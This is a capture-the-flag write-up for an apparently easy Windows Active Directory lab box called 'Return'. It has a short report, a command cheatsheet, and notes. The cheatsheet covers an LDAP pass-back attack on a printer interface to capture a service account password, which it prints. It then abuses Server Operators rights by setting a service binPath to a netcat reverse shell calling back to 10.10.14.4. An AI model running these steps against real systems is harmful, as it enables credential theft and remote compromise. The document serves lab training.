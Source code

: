 # Return \[Windows AD Easy]

## Report

An LDAP printer web interface allows us to perform a pass-back attack by setting up our rogue LDAP server or just netcat at port 389.

User svc-printer has a lot of privelges and is part of the group "Server Operators" which can modify or add maybe services. Change the binary path of an existing service VMTools to a netcat binary we upload an restart the service to get a reverse shell as admin.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}

## Cheatsheet

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
# DNS Domain name is return.local, not printer.return.local - so is the Organisation name

#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred

sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

sudo tcpdump -SX -i breachad tcp port 389

nxc smb retunr.local -u svc-printer -p '1edFg43012!!' --shares
evil-winrm -i return.local -u svc-printer -p '1edFg43012!!'

whoami /priv /groups
net user svc-printer
services
upload /usr/share/windows-binaries/nc.exe
sc.exe config VMTools binPath="C:\Programdata\nc.exe -e cmd.exe 10.10.14.4 9001"
sc.exe stop VMTools
sc.exe start VMTools


#EXTRA - FOR BETTER SHELL
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.4 443"
```

## Loot

### Creds

svc-printer:1edFg43012!!

### Proof

LDAP Pass-back attack: force the device to attempt LDAP authentication to our rogue device by gaining access to an interface where LDAP parameters are specified (eg. web interface)

Here we can just use nc -lvnp 389 and get the result because the printer was sending it in plaintext regardless unlike the THM room where we had to explicitly tell it to send in plaintext

User is part of group Server Operators that can modify services, look into other privelges that can be abuse as well or maybe a cheatsheet

Also setting nc as direct bin path gives a shell that crashes every 30 seconds or so, using path of cmd and using that to call nc results in a more stable shell


